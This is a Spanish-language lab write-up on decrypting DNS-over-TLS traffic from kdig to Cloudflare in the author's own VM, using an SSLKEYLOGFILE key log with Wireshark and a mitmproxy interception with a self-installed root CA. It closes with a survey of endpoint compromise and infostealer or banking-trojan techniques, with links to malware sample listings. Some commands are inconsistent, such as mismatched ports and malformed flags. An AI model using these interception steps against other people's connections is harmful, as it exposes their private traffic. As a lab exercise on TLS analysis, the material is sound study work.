- `socket()`: creación del socket: AF_INET, SOCK_STREAM → inicio de la comunicación.
- `setsockopt()`: configuración del socket.
- `connect()`: intento de conexión al servidor 1.0.0.1:853.
- `getsockopt()`: comprobación del estado del connect().
- `sendmsg()`: envío de datos por el socket: handshake TLS y después datos cifrados.
- `recvfrom()`: recepción de datos por el socket: respuestas TLS / application data cifrada.
- `close()`: cierre del descriptor: final de la conexión.
 

 ------

### Captura de las Librerias SSL/TLS
Para capturar qué librerías criptográficas/TLS está empleado kdig en la máquina virtual para cifrar las comunicaciones, usaremos `ldd` sobre el binario `kdig` y luego filtraremos con `grep`:
```
ldd "$(which kdig)" | grep -Ei 'gnutls|ssl|crypto|mbedtls|wolfssl|nss|nettle|gcrypt|sodium'
``` 

Resultado:
``` 
libdnssec.so.9 => /lib/x86_64-linux-gnu/libdnssec.so.9 (0x00007fb9c11f6000)
libgnutls.so.30 => /lib/x86_64-linux-gnu/libgnutls.so.30 (0x00007fb9c0ffc000)
libnettle.so.8 => /lib/x86_64-linux-gnu/libnettle.so.8 (0x00007fb9c0891000)
```
donde:
- `libgnutls.so.30`:
  - libgnutls es la librería TLS que implementa TLS 1.2/1.3, certificados X.509, handshake, cifrados, etc..
  - kdig usa GnuTLS para establecer el canal TLS de DoT.
- `libnettle.so.8`: 
  - Nettle es una librería de primitivas criptográficas: hashes, HMAC, AES, ECC, etc. que GnuTLS utiliza como backend criptográfico.
  - GnuTLS se apoya en Nettle para operaciones criptográficas.

- `libdnssec.so.9`:
  - Esto no es TLS, es la librería de DNSSEC para validación de firmas DNS, claves, etc.
  - Es relevante para DNS y para kdig, pero NO es la librería que cifra el canal TLS.


**Qué rol GnuTLS juega dentro de kdig (DoT) como responsable del handshake, cifrado, verificación de certificados:**
1. Handshake TLS - Establecimiento de sesión: GnuTLS ejecuta todo el handshake TLS 1.3 sobre el socket TCP que abre kdig:
- Envía ClientHello (con extensiones como SNI, supported_versions, key_share).
- Procesa ServerHello y el resto de mensajes del servidor.
- Negocia parámetros: versión TLS, grupo ECDHE (p. ej. x25519) y cipher suite (p. ej. AES-GCM).

Resultado: se deriva un conjunto de claves de sesión (simétricas) para cifrar el tráfico posterior.


2. Intercambio de claves efímero y PFS: En TLS 1.3, el intercambio de claves es (EC)DHE efímero (lo vimos como key_share: x25519). GnuTLS gestiona:
- Generación de claves efímeras del cliente,
- cálculo del secreto compartido,
- derivación de claves con HKDF.

Implicación: da Perfect Forward Secrecy: capturar tráfico + conocer la clave privada del servidor no basta para descifrar después.


3. Verificación de certificados - Autenticación del servidor: GnuTLS valida la identidad del servidor, que es crítico en DoT:
- Construye la cadena de certificados (leaf → intermedia → raíz).
- Verifica firma, validez temporal, CA de confianza del sistema.
- Verifica el nombre: +tls-host=one.one.one.one fuerza la comprobación del hostname (y también se usa como SNI).

Resultado: evita MITM si el certificado no corresponde o no es confiable.


4. Cifrado y autenticación del tráfico - Application Data: Una vez finalizado el handshake:
- GnuTLS cifra/des cifra los datos con la suite negociada (ej. AES-256-GCM).
- Aporta integridad/autenticación (AEAD), detectando manipulación.


5. Interfaz con kdig - lectura/escritura: kdig no cifra a mano, pasa los datos DNS a la API TLS (GnuTLS), y esta:
- Empaqueta en registros TLS,
- gestiona reintentos, fragmentación TLS, alertas, cierre TLS,
- escribe/lee del socket TCP subyacente.


**Resumiendo:** En kdig, GnuTLS implementa el protocolo TLS para DoT: realiza el handshake (negociación de versión/cifrados y key exchange efímero), valida la cadena de certificados y el hostname (autenticación del servidor) y cifra/autentica el tráfico de aplicación (DNS) con la suite negociada (p. ej. AES-GCM). GnuTLS delega primitivas criptográficas (hashes, AES, etc.) en Nettle.


-----

# Fase 2
Para descifrar tráfico DNS-over-TLS (DoT), Cloudflare negocia TLS 1.3 con (EC)DHE/PFS), las dos técnicas que podemos usar son:
- Key logging  - Archivo de secretos de TLS → Wireshark: La idea es conseguir las claves de sesión desde el cliente, o desde la librería TLS que use, y dárselas a Wireshark para que descifre el flujo.
  - Se genera un key log file (formato tipo SSLKEYLOGFILE / “(Pre)-Master-Secret log”).
  - Luego en Wireshark: Preferences → Protocols → TLS → (Pre)-Master-Secret log filename y cargas el fichero.
  - Ventaja: funciona aunque haya PFS (TLS 1.3 + ECDHE), porque estamos obteniendo los secretos en el endpoint.
  - Nota: kdig usa GnuTLS. Según herramienta/versión, el keylog puede salir por opción tipo --keylogfile (en clientes GnuTLS como gnutls-cli) o variable de entorno. Si kdig no lo soporta directamente, se hace la conexión con un cliente que sí lo soporte, o se instrumenta el proceso.
  
- Intercepción activa con proxy TLS / MITM (CA propia) → Wireshark: La idea es montar un Adversary-in-the-Middle controlado: un proxy que “termina TLS” con el cliente y abre “otro TLS” con Cloudflare.
  - Instalamoss una CA propia y hacemoss que el cliente confíe en ella.
  - Redirigimos el tráfico DoT (TCP/853) al proxy (modo explícito o transparente con iptables).
  - El proxy nos da el tráfico ya descifrado, o lo podemos exportar/registrar, y luego lo capturamos y analizamos.
  - Ventaja: no dependemos de que el cliente genere keylog; útil para “interceptación” real.


NO se puede elegir la técnica RSA private key del servidor para Cloudflare DoT porque esta técnica sólo funciona cuando el intercambio de claves es RSA key exchange sin PFS (típico de TLS antiguo con ciertas suites). En este caso hamos visto que usa TLS 1.3 + ECDHE (PFS), así que aunque tuvieramos la clave privada del servidor, no podríamos descrifrar nada a posteriori.

## Key logging  - Archivo de secretos de TLS → Wireshark

Vamos a intentar descifrar el tráfico utilizando un archivo de secretos (Key Logging). Este método permite descifrar protocolos modernos, como TLS 1.2 y 1.3, que utilizan Perfect Forward Secrecy (PFS), donde una clave privada de servidor no es suficiente para ver los datos.

Para descifrar el tráfico DoT (TLS sobre TCP en el puerto 853) en Wireshark usando key logging, lo que hacemos es: hacer que la librería TLS, que vimos que era GnuTLS, escriba las claves de sesión en un fichero, y luego decirle a Wireshark dónde está ese fichero. En la máquina virtual linux con kdig, esto se hace con la variable de entorno SSLKEYLOGFILE. GnuTLS la soporta y escribe las claves en formato “NSS Key Log”, compatible con Wireshark.


**Creamos el fichero de claves y exportamos la variable de entorno `SSLKEYLOGFILE`:**
- La variable debe estar definida ANTES de lanzar kdig, porque quien escribe el fichero es la librería TLS al crear la sesión.
- Antes de ejecutar `kdig`, ejecutamos en una terminal:
  ``` 
  export SSLKEYLOGFILE="$HOME/tlskeys_kdig.log"
  : > "$SSLKEYLOGFILE"
  chmod 600 "$SSLKEYLOGFILE"
  ```
  donde:
  - `: > "$SSLKEYLOGFILE"`: crea un fichero vacía.
  - `chmod 600 "$SSLKEYLOGFILE"`: sólo nosotros podemos leerlo.


**Capturar el tráfico:** Ejecutamos el siguiente comando para capturar el tráfico de red que nos interesa, en un fichero pcap:
```
sudo tcpdump -ni enp0s3 host 1.0.0.1 and tcp port 853 -w trafico_cloudflare_1.0.0.1_2.pcap
```


**Generar tráfico DoT con kdig:** En la misma terminal donde se generó la variable de entorno lanzamos un par de veces la herramient kdig:
```
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one example.com
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one cloudflare.com
```

**Resultado de la captura del tráfico:**  


**Resultado del fichero `tlskeys_kdig.log`:**  


**Abrimos el fichero pcap con Wireshark:** Cargamos el key log en Wireshark:
- Vamos a Edit → Preferences → Protocols → TLS.
- En la opción (Pre)-Master-Secret log filename, seleccionamos el fichero fichero `tlskeys_kdig.log`.
- Aceptamos.
- Wireshark usará ese fichero para descifrar TLS, incluido TLS 1.3 y suites con (EC)DHE: 


**Comprobamos que ya tenemos el tráfico DEScifrado:** Aplicamos el siguiente filtro: `tls && ip.addr==1.0.0.1 && tcp.port==853`.

donde:
- Vemos dos sesiones TLS 1.3 separadas, una para example.com y otra para cloudflare.com, cada una con su handshake, consulta DNS, respuesta y cierre limpio.
  - Paquete 12: `DNS 206 Standard query ... A example.com`.
  - Paquete 33: `DNS 206 Standard query ... A cloudflare.com OPT`.
- En el panel inferior Package Deatils: `Certificate`:
  - `Handshake Type: Certificate (11)`
  - `Certificates Length: 2979 bytes`
  - Esto es el envío de la cadena de certificados del servidor (Cloudflare).
- En el panel inferior Package Deatils: `Certificate Verify`:
  - `Signature Algorithm: ecdsa_secp256r1_sha256 (0x0403)`: El servidor firma para demostrar posesión de la clave privada del cert.
- Paquete 31: `Finished`: Es el mensaje que cierra el handshake del servidor, verificación de integridad del transcript.
- Autenticación: `Certificate` + `Certificate Verify` con ECDSA P-256 / SHA-256.


Al cargar el fichero de claves (SSLKEYLOGFILE) en Wireshark, el tráfico DoT (TCP/853) pasa de mostrarse como TLS Application Data a poder disecarse como DNS. En el paquete 14 Wireshark presenta una respuesta DNS (ID 0x9049) asociada a la consulta del paquete 12 (“Request In: 12”), con estado NOERROR y dos registros A para example.com (104.18.26.120 y 104.18.27.120). Esto confirma que la sesión TLS se ha descifrado correctamente con el key log.


## Intercepción activa con proxy TLS / MITM (CA propia)

La idea para poder realizar este tipo de captura del tráfico TLS:
- Poner un proxy TLS en el medio, como por ejemplo mitmproxy.
- Hacer que el cliente DoT se conecte al proxy en vez de al servidor real.
- Instalar la CA del proxy en el cliente para que “se crea” los certificados falsos.
- Capturar y analizar el tráfico descifrado.


### Qué es “proxy TLS / MITM con CA propia”
Un proxy TLS de inspección actúa como man in the middle, terminando TLS del lado cliente y creando otra sesión TLS hacia el servidor real:
- Cliente ↔ Proxy: TLS con un certificado falso (generado “al vuelo”) para el hostname destino, firmado por nuestro CA: nuestro “Root CA”.
- Proxy ↔ Servidor real: TLS normal con el certificado legítimo del servidor.
- El proxy puede ver el contenido en claro en el punto intermedio.
- Condición crítica: El cliente sólo aceptará el MITM si confía en la CA que firma ese certificado “falso”.

En este caso, estamos actuando como un traductor en tiempo real entre el cliente y el servidor, permitiendo no sólo ver el tráfico, sino también modificarlo.


### Instalación de la Autoridad de Certificación (CA)
Para que un cliente, como puede ser el navegador o la aplicación DoT, NO dé un error de seguridad, debemos "engañarlo" instalando la CA raíz del proxy.
- Iniciamos una herramienta proxy, que podría ser mitmproxy, Burp Suite o Fiddler. Elegimos mitmproxy.
- Descargamos el certificado del proxy, normalmente disponible en una URL local como http://mitm.it.
- Lo instalamos en el Almacén de Certificados Raíz de Confianza de nuestro sistema operativo o navegador.


**Instalamos Mitmproxy:**
```
sudo apt install mitmproxy
``` 

**Creamos los certificados de Mitmproxy:** Mitmproxy no crea sus certificados hasta que se ejecuta por primera vez. Para ello:
- Abrimos una terminal y escribimos `mitmproxy`.
- Una vez que vemos la interfaz, los certificados se habrán generado automáticamente en una carpeta oculta de nuestro usuario linux: `~/.mitmproxy/`


**Obtención del Certificado:** Vamos a la carpeta `~/.mitmproxy/` y copiamos el archivo mitmproxy-ca-cert.pem para importarlo en firefox.

donde:
- `mitmproxy-ca-cert.pem`: Es el certificado público de la entidad emisora (CA). Es el estándar para sistemas Linux y navegadores como Firefox.
- `mitmproxy-ca-cert.p12`: Se usa principalmente para instalar en dispositivos Windows, iOS o Android.


**xxx xxx:**
Copiamos el archivo `mitmproxy-ca-cert.pem` a la carpeta de certificados del sistema renombrándolo y actualizamos el almacén del sistema:
```
sudo cp ~/.mitmproxy/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy.crt
sudo update-ca-certificates
```


Resumiendo: Sin este paso, en el apartado de "Handshake TLS", el cliente rechazaría la Cipher Suite o el Certificado del servidor porque el Issuer (emisor) sería desconocido. Al instalar la CA, el sistema tratará los certificados falsos de mitmproxy como si fueran legítimos, permitiéndonos ver los Datos de Aplicación en texto plano.


**Verificamos que mitmproxy funciona correctamente:**
- En firefox:
  - Ajustes -> General -> Configuración de red.
  - Seleccionamos "Configuración manual del proxy".
  - Ponemos HTTP Proxy: 127.0.0.1 y Puerto: 8080. Marcamos la casilla "Usar este servidor proxy también para HTTPS".
  - Vemos que aún el tráfico no pasa por mitmproxy:
  

- Instalamos el certificado en firefox:
  - Ajustes -> Privacidad y seguridad -> Certificados -> Ver certificados
  - En la pestaña de Autoridades: Importar y seleccionar el archivo del proxy `mitmproxy-ca-cert.pem`.
  - Configuramos la confianza: Se abrirá una ventana con dos casillas. Debemos marcar obligatoriamente: "Confiar en esta CA para identificar sitios web" (Trust this CA to identify websites)".
  


- La terminal ya muestra flujos de tráfico HTTPS en color verde (200 OK) para dominios como Google y Mozilla. Esto confirma que la intercepción activa (MITM) ya está funcionando correctamente y Firefox confía en tu certificado.

Vemos que en Firefox funciona también mitmproxy:


### Redirección del tráfico
Debemos asegurarnos de que los paquetes pasen por el proxy.
- Proxy de sistema: Configuramos la IP y el puerto del proxy en los ajustes de red de nuestro equipo.
- DoT (Puerto 853): Si estamos analizando la sesión de Cloudflare en el puerto 853, debemos asegurarnos de que nuestro proxy soporte tráfico transparente o esté configurado específicamente para escuchar en ese puerto.
```
mitmproxy --mode 'reverse:https://1.0.0.1:853' --rawtcp listen-host 0.0.0.0 --listen-port 853
```
donde:
- `--rawtcp`: Esta opcion hace que mitmproxy no se bloquee cuando recibe algo que no es HTTP, simplemente lo descifra y lo pasa.


### Generación de tráfico DoT con kdig
Ejecutamos el comando:
```
kdig -d @1.1.1.1 +tls-ca=~/.mitmproxy/mitmproxy-ca-cert.pem +tls-hostname=one.one.one.one cloudflare.com
```
donde:
- `@127.0.0.1 -p 8080`: No nos conectamoss a Cloudflare directamente. Nos conectamos a un servicio local, el proxy.
- `+tls-ca=mitmproxy-ca-cert.pem`: Indicamos a kdig que confíe en esa CA que es la CA de nuestro proxy.
- `+tls-host=one.one.one.one`: Fuerza SNI/validación para ese hostname.
- Resultado: kdig acepta el certificado que le presenta el proxy porque está firmado por nuestra CA.


Obtenemos una intercepción activa (MITM) exitosa en el sentido de validación de CA propia:

donde:
- En la ventana de terminal de mitmproxy:
  - Se ve un flujo TCP 127.0.0.1:33699 <-> 1.0.0.1:853.
  - Eso es la prueba de que el proxy está haciendo “puente” hacia el DoT real de Cloudflare en 853.
  - Hemos conseguido exactamente lo que pedía el apartado de “intercepción activa”: el cliente habla TLS con el proxy, y el proxy habla TLS con Cloudflare.
- En la ventana de terminal de kdig:
  - `#1, CN=cloudflare-dns.com, O=Cloudflare, Inc.`: El proxy genera un certificado con el mismo CN/SAN esperado, para que el cliente no sospeche por nombre. Lo importante para demostrar MITM es el Issuer (emisor):
    - En conexión directa (sin MITM) antes veíamos cadena pública (SSL.com …).
    - En MITM veremos que el Issuer ya no es SSL.com, sino nuestro CA (mitmproxy).
  - Aunque kdig no muestra el ISSUER, lo importante es que se ve que se confía en la CA de mitmproxy y por eso el TLS con el proxy pasa:
    - `TLS, imported 1 certificates from 'mitmproxy-ca-cert.pem'`
    - `The certificate is trusted`
    - `From 127.0.0.1@8080(TLS)`

- `TLS session (TLS1.3)-(ECDHE-SECP256R1)-(RSA-PSS-RSAE-SHA256)-(AES-256-GCM)`:
  - TLS1.3: versión negociada.
  - ECDHE-SECP256R1: el intercambio de claves efímero usa P-256 (secp256r1).
    NOTA: Antes con Cloudflare directo aparecía X25519; aquí cambia porque el endpoint TLS “servidor” ahora es el proxy. Es importante este detalle, ya que es un indicador extra de que estamos terminando TLS en otro sitio, en el proxy, no con Cloudflare.
  - RSA-PSS-RSAE-SHA256: algoritmo de firma usado en CertificateVerify (autenticación del servidor).
  - AES-256-GCM: cifrado simétrico AEAD.
- DNS: La resolución:
  - cloudflare.com → 104.16.133.229 y 104.16.132.229
  - From 127.0.0.1@8080(TLS) confirma que para kdig el “servidor DoT” es el proxy local.


### Análisis tras la intercepción en mitmproxy
**Seleccionamos un flujo TCP:**
- En la ventana del terminal de mitmproxy, seleccionamos un flujo TCP.
  
- Usamos las flechas para situarnos sobre una línea que empieza por TCP y tiene como destino 1.0.0.1:853.
- Pulsamos la tecla Enter para entrar en ese flujo concreto:
  
- Usamos la tecla Tab o las flechas izquierda/derecha para movernos hasta la pestaña Detail.

**Dentro de la pestaña Detail:**

donde:
- Apartado: Transporte / Socket: Se muestra toda la información del "tubo" por el que viajan los datos:
  - Protocolo: TCP (SOCK_STREAM).
  - Dirección y Puerto: 1.0.0.1:853 (el puerto estándar de DoT).
  - Handshake TCP: Se confirma como exitoso porque la conexión llegó a establecerse en 62ms.
- Apartado: Handshake TLS: Sección "Client Connection":
  - Versión negociada: TLSv1.3 (la más moderna).
  - Cipher suite negociada: TLS_AES_256_GCM_SHA384.
  - Extensiones relevantes (SNI): Aparece claramente como one.one.one.one.
- Apartado: Certificado del Servidor: En la sección "Server Certificate" se muestran los detalles de validación:
  - Subject / SAN: cloudflare-dns.com, one.one.one.one, etc.
  - Validación (OK / trusted): En la captura anterior vimos que el comando kdig confirmó: "The certificate is trusted".
  - "Trusted" porque instalamos manualmente la CA de mitmproxy en el almacén de confianza.


### Vemos el Tráfico de aplicación descifrado
- TCP Stream. Dentro de la pestaña TCP Steam: Pulsamos la flecha Izquierda para movernos de la pestaña "Detail" a la pestaña "TCP Stream". Ahí vemos los bytes reales. Como es DNS over TLS, vemos el nombre del dominio que consultamos (cloudflare.com) en texto claro entre los caracteres binarios:
  
  donde:
  - Es la prueba de que ocurre el descifado: Para que podamos ver el nombre del dominio, cloudflare.com, el proxy ha tenido que descifrar el paquete que le envió kdig. Si no lo descifrara, el proxy sólo vería bytes aleatorios ilegibles.

- Cipher Name: Vamos a la pestaña Details. Vemos `Cipher name: TLS_AES_256_GCM_SHA384`:  
    
  donde:
  - En una conexión normal de TLSv1.3, gran parte de la negociación final y los certificados están cifrados. El hecho de que mitmproxy muestre explícitamente que se negoció el algoritmo `TLS_AES_256_GCM_SHA384` es prueba de que el proxy ha participado activamente en el saludo (handshake).
  
- Certificado del Servidor: Dentro de la pestaña Details:
  
  donde:
  - Vemos en el Subject `CN=cloudflare-dns.com`.
  - Vemos en el Issuer `SSL.com`.
  - En TLS 1.3, el certificado que envía el servidor viaja cifrado. Si mitmproxy no hubiera descifrado la sesión, sería incapaz de mostrar esos campos de texto claro; solo veríamos una masa de bytes ilegibles.


**Nota importante sobre los certificados: Falso y el Real**
- Certificado Real (Upstream): Emitido por SSL.com a Cloudflare. Es el que mitmproxy analiza para clonar sus datos (como el SNI one.one.one.one).
- Certificado Falso: Emitido por mi CA de mitmproxy a kdig. Es el que permite que pueda ver el tráfico descifrado.
- Al decirle a kdig que confíe en mitmproxy-ca-cert.pem, y recibir un "Trusted", queda demostrado que el certificado que recibió kdig estaba firmado por mi CA.

En el tramo proxy↔servidor se observa el certificado público real de Cloudflare, cuya cadena es validada por el proxy contra una CA pública (`SSL.com`). En cambio, en el tramo cliente↔proxy, la validación exitosa de kdig indica que el certificado presentado al cliente no es el original, sino uno generado dinámicamente por el proxy para el hostname usado en SNI/validación (`one.one.one.one`) y re-firmado con la CA local en la que kdig confía (`+tls-ca=mitmproxy-ca-cert.pem`). Esto permite al proxy terminar TLS, acceder al contenido de aplicación en claro y volver a cifrarlo hacia el servidor real.


### El tráfico en wireshark
Si capturamos el tráfico que se generó con el comando kdig y lo intentamos analizar con wireshark, veremos que continúa mostrando tráfico cifrado. Para Wireshark, lo que viaja entre la IP de la máquina virtual 10.0.2.15 y el servidor 1.0.0.1 es un flujo de datos protegidos. Como no le hemos proporcionado las "llaves" (el archivo de secretos), Wireshark no tiene forma de abrir ese paquete y por eso lo etiqueta genéricamente como "Application Data":


Mientras que mitmproxy permite visualizar el contenido descifrado de la consulta DNS gracias a la intercepción activa del socket, la captura de Wireshark demuestra que el tráfico en tránsito sigue estando protegido por TLS 1.3. La presencia de etiquetas 'Application Data' confirma que, sin el uso de técnicas de registro de claves (Key Logging), el contenido de la capa de aplicación permanece inaccesible.


Podríamos combinar esta técnica, con la técnica de Registro de Claves de Sesión (Key Logging) que vimos anteriormente para entonces poder ver los paquetes decifrados en wireshark.


# Técnicas de descrifrado de TLS:
## Técnica 1: Descifrado pasivo mediante registro de claves (Key Logging)
Esta técnica se basa en obtener las "llaves maestras" que genera el cliente durante la negociación TLS.

- Cómo funciona: El cliente, como Firefox o kdig, guarda los secretos de la sesión en un archivo de texto (el famoso SSLKEYLOGFILE).

- Wireshark: Wireshark no intercepta la conexión, solo "mira" los paquetes pasar. Al darle el archivo de claves, Wireshark puede abrir el candado de los paquetes que ya capturó anteriormente.

- Resultado: Vemoss el protocolo interno (DNS) en lugar de "Application Data".


## Técnica 2: Descifrado activo mediante Intercepción (Man-in-the-Middle - MitM)
Es un descifrado de tráfico TLS, pero funciona de forma distinta:

- Cómo funciona: En lugar de dejar que el cliente hable con el servidor real, el proxy se pone en medio y "rompe" el túnel TLS en dos partes.
  - Túnel 1: El cliente habla con el Proxy (el proxy descifra los datos aquí).
  - Túnel 2: El proxy habla con el Servidor real (el proxy vuelve a cifrar los datos aquí).

- Por qué es descifrado: Para podemos ver el nombre del dominio (cloudflare.com) o la Cipher Suite en la pantalla de mitmproxy, el proxy ha tenido que descifrar el paquete que le envió kdig. Si no lo descifrara, el proxy solo vería bytes aleatorios ilegibles.

- Evidencia: La última captura es la prueba de este descifrado, ya que muestra el SNI y la Cipher Suite que estaban ocultos dentro del Handshake cifrado.

## Técnica 3: Clave privada del servidor (proxy inverso / off‑path)
- Requisito: tener la clave privada del certificado del servidor.
- Uso típico en laboratorio: montar un proxy inverso con ese certificado y desviar el tráfico hacia él.
- Límite importante: con TLS moderno y ECDHE, la clave privada ya no permite descifrar capturas pasadas; sirve sobre todo para hacerse pasar por el servidor y ver el tráfico en vivo.


## Técnica 4: Compromiso del endpoint servidor
Se instala un agente/malware en el servidor que:
- Hookea la librería TLS (OpenSSL, NSS, SChannel, etc.) para ver datos antes de cifrar o después de descifrar.
- O directamente lee memoria de proceso donde están los secretos o el texto plano.
- Requiere: controlar el servidor.
  
Es más explotación de endpoint que de red, pero a efectos prácticos tambien permite ver todo el tráfico TLS descifrado.


## Técnica 5: Compromiso del endpoint cliente
Esta técnica se conoce técnicamente como Exfiltración de Secretos de Sesión y es una de las más sigilosas, ya que no rompe el cifrado mediante fuerza bruta, sino que simplemente "roba la llave" mientras el usuario legítimo la está usando.

Si alguien obtiene acceso al proceso (memoria/depuración/malware), puede extraer secretos de sesión y descifrar.

**Familias de malware que utilizan este fin:**
- Infostealers (Ladrones de Información): Son los más comunes hoy en día. Su objetivo no es romper el sistema, sino extraer credenciales y secretos de la memoria de los navegadores.
  - RedLine Stealer / Vidar: Estos malwares escanean la memoria de procesos como chrome.exe o firefox.exe para buscar archivos de cookies y, en versiones avanzadas, intentan capturar los Master Secrets de TLS para descifrar comunicaciones bancarias o de criptoactivos.
    - https://bazaar.abuse.ch/browse.php?search=tag%3ARedLineStealer
    - https://bazaar.abuse.ch/browse.php?search=tag%3AVidar

  - StealC: Un malware moderno que automatiza la extracción de datos de navegadores, aprovechando que muchas aplicaciones guardan secretos temporales en memoria para mejorar el rendimiento. https://bazaar.abuse.ch/browse.php?search=tag%3AStealC

- Memory scrapers: malware que busca en RAM patrones (claves, tokens, credenciales) y los exfiltra.

- Troyanos Bancarios (Banking Trojans): Estos son especialistas en la interceptación de tráfico de red.
  - Dridex / Qakbot (Qbot): Utilizan una técnica llamada Browser Hooking. Inyectan código malicioso en las librerías de red del navegador (como nss3.dll en Firefox o schannel.dll en Windows). Al estar "dentro" de la librería, pueden leer los datos justo antes de que se cifren o justo después de descifrarse, haciendo que el TLS sea totalmente inútil.
    - https://bazaar.abuse.ch/browse.php?search=tag%3AQakbot
